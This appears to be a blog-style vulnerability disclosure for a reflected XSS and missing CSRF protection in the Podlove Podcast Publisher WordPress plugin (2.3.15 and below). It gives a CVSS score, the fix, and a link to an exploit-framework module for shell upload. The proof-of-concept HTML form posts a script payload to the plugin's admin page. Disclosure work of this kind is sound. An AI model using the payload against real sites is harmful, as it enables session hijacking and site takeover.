 ```yaml
---
layout: single
title: Podlove Podcast Publisher <= 2.3.15 Reflected XSS
date: 2017-01-21
categories:
  - security
  - websec
  - disclosure
tags:
  - wordpress
  - podlove podcast publisher
  - reflected xss
excerpt: Due to a lack of CSRF mitigation and entity encoding in `lib/episode_asset_list_table.php`, it is possible to execute scripts in the context of an admin user by including a script in the `page` field during a form post.
---
```

## Homepage
[https://wordpress.org/plugins/podlove-podcasting-plugin-for-wordpress/](https://wordpress.org/plugins/podlove-podcasting-plugin-for-wordpress/)

## Overview
Due to a lack of CSRF mitigation and entity encoding in `lib/episode_asset_list_table.php`, it is possible to execute scripts in the context of an admin user by including a script in the `page` field during a form post.

## CVSS Score
4.8

## CVSS Vector
[(AV:N/AC:M/Au:N/C:P/I:P/A:N/E:F/RL:OF/RC:C)](https://nvd.nist.gov/cvss.cfm?calculator&version=2&vector=(AV:N/AC:M/Au:N/C:P/I:P/A:N/E:F/RL:OF/RC:C))

## Versions Affected
2.3.15 and below

## Solution
Upgrade to the latest version of the plugin

## WordPress Exploit Framework Module
[exploit/xss/reflected/podlove\_podcast\_publisher\_reflected\_xss\_shell\_upload](https://github.com/rastating/wordpress-exploit-framework/blob/development/lib/wpxf/modules/exploit/xss/reflected/podlove_podcast_publisher_reflected_xss_shell_upload.rb)

## Proof of Concept
```xml
<form method="POST" action="[target]/wp-admin/admin.php?page=podlove_episode_assets_settings_handle">
  <input type="text" name="page" value="&quot;&gt;&lt;script&gt;alert(document.cookie)&lt;/script&gt;&lt;a href=&quot;">
  <input type="submit">
</form>
```

## WPVDB-ID
[8697](https://wpvulndb.com/vulnerabilities/8697)
